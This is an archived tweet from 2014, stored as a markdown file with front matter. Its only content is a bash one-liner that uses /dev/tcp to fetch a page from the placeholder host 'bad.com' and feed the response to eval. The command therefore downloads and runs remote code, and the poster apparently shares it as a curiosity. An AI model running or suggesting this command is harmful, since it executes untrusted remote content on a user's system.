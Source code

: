 ```yaml
---
title: "tweet: 0_o   eval $(exec 9&lt;&gt;/dev/"
slug: "493904291669610497"
date: "2014-07-28T23:42:14+00:00"
---
```

0_o   eval $(exec 9&lt;&gt;/dev/tcp/bad.com/80;echo -e "GET / HTTP/1.0\n"&gt;&amp;9;cat&lt;&amp;9)
